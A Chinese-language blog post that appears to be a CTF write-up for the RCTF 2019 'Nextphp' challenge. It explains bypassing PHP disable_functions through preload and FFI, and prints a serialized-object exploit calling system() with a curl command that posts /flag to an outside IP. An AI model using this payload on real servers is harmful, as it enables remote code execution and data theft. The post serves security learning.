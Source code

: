 ```yaml
---
title: '[RCTF 2019]Nextphp'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-20 15:17:10
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1114164.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201120154814.png)

代码过于简单，肯定不对劲。
可以查看phpinfo，看到disable_function里面几乎过滤了所有执行函数。

写马蚁剑也连不上。

?a=var_dump(scandir("/var/www/html/"));查看目录：
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(11) "preload.php" } 

?a=show_source('preload.php');
查看preload.php源码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201120155708.png)

然而这个反序列化我并不知道怎么利用，没有魔法函数也没有执行函数。

知识点：preload/FFI同时使用导致绕过disable_function/open_basedir
文档：https://wiki.php.net/rfc/preload
https://www.php.net/manual/en/ffi.examples-basic.php
尝试看了下，然后放弃了，原理暂时不去搞清楚，记住这个知识点就行。
题目中设置了opcache.preload = /var/www/html/preload.php和FFI support = enabled，可以利用ffi直接调用C语言编写的函数

那再看上面的代码，利用点应该就是将代码写入data里面。

exp：

<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',                          
        'arg' => 'int system(const char *command);'     //声明
    ];

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
    }
}

$a = new A();
$b = serialize($a);
echo $b;


结果：C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}

上述代码实现声明
FFI::cdef("int system(const char *command);")

所以现在只需调用即可，通过设置__serialize()['ret']的值获取flag

__serialize()['ret']->system('curl -d @/flag linux靶机的ip')

完整paylaod:
?a=$a=unserialize('C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}')->__serialize()['ret']->system('curl -d @/flag 172.16.191.146:8888');

传参后完整过程：
1.unserialize
把payload传给data参数,即覆盖原参数

2.run
ret=FFI::cdef('int system(const char *command);')

3.__serialize()
指定的ret内容即是最终的执行命令，通过最后的return调用，返回flag。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201121001500.png)

参考：https://www.cnblogs.com/karsa/p/13393034.html